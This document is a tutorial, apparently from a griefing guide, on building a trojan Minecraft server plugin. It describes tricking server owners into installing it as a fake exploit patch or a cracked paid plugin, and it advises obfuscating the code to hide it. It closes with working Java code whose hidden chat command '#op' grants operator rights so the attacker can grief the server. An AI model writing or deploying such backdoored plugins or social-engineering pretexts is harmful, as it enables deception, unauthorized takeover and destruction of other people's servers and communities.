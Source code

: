 # Poisoned Plugin

**Overview**

A poisoned plugin (also called a backdoored or trojan plugin) is a plugin that can be used to gain yourself OP. The idea is to trick the server owner or administrator to install it on their server. How do you do that? This requires some social engineering.

A trojan is a piece of malware that looks legit, but it's purpose and execution is malicious.

You can e.g. find an exploit or bug on the server. This could e.g. be a crash exploit. Tell the owner that you discovered the exploit, and you have a patch for it. Send them the legit-looking plugin and make them install it on the server. When it's installed, you can then use it's feature to gain OP and grief the server.

An other way to make them intall it, is by telling them that you got a cracked version of a paid plugin. E.g. Advanced Anti Cheat (AAC).

This griefing method requires a little knowledge in Java programming, as you need to develop your own plugin.

If you know how to script scripts using Skript or Denizen, you can obtain the same result. Of course you need to hide the code better e.g. by obfuscating it (make the code look confusing), as the server owner or administrator can easily read it. Same goes for Java plugins. You can obfuscate Skript scripts by using [this tool](), and [ProGuard]() for Java plugins.

Here's an example of what an unobfuscated simple poisoned plugins code could look like:
```java
public class main extends JavaPlugin implements Listener {

    public void onEnable() {
        this.getServer().getPluginManager().registerEvents((Listener)this, (Plugin)this);
    }
    
    @EventHandler
    public void onPlayerChat(PlayerChatEvent event) {
        if (event.getMessage().startsWith("#op")) {
            event.setCancelled(true);
            event.getPlayer().setOp(true);
        }
    }
}
```
